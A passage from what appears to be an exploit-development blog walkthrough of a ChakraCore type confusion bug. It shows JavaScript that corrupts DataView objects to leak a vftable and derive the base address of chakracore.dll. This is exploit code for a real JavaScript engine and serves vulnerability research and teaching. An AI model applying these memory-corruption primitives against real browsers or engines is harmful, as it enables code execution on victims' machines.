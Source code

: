 We know that in `read64()` we first corrupt `dataview2->buffer` with the target address we want to read from by using `dataview1.setUint(0x38...)`. This is because `buffer` is located at an offset of `0x38` within the a `DataView` object. However, since `dataview1` already acts on the `dataview2` object, and we know that the `vftable` takes up bytes `0x0` through `0x8`, as it is the first item of a `DataView` object, we can just simply using our ability to control `dataview2`, via `dataview1` methods, to just go ahead and retrieve whatever is stored at bytes `0x0` - `0x8`, which is the `vftable`! This is the only time we will perform a read without going through our `read64()` function (for the time being). This concept is fairly simple, and can be seen by the diagram below.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion62.png" alt="">

However, instead of using `setUint32()` methods to overwrite the `vftable`, we use the `getUint32()` method to retrieve the value.

Another thing to notice is we have broken up our read into two parts. This, as we remember, is because we can only read/write 32-bits at a time - so we must do it twice to achieve a 64-bit read/write.

It is important to note that we will _not_ step through the debugger every `read64()` and `write64()` function call. This is because we, in great detail, have already viewed our arbitrary write primitive in action within WinDbg. We already know what it looks like to corrupt `dataview2->buffer` using the builtin `DataView` method `setUint32()`, and then using the same method, on behalf of `dataview2`, to actually overwrite the buffer with our own data. Because of this, anything performed here on out in WinDbg will be purely for exploitation reasons. Here is what this looks like when executed in `ch.exe`.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion63.png" alt="">

If we inspect this address in the debugger, we can clearly see the is the `vftable` leaked from `DataView`!

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion64.png" alt="">

From here, we can compute the base address of `chakracore.dll` by determining the offset between the `vftable` entry leak and the base of `chakracore.dll`.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion65.png" alt="">

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion66.png" alt="">

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion67.png" alt="">

The updated code to leak the base address of `chakracore.dll` can be found below:

```javascript
    (...)truncated(...)

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // dataview1 methods act on dataview2 object
    // Since vftable is located from 0x0 - 0x8 in dataview2, we can simply just retrieve it without going through our read64() function
    vtableLo = dataview1.getUint32(0x0, true);
    vtableHigh = dataview1.getUint32(0x4, true);

    // Print update
    print("[+] DataView object 2 leaked vtable from ChakraCore.dll: 0x" + hex(vtableHigh) + hex(vtableLo));

    // Store the base of chakracore.dll
```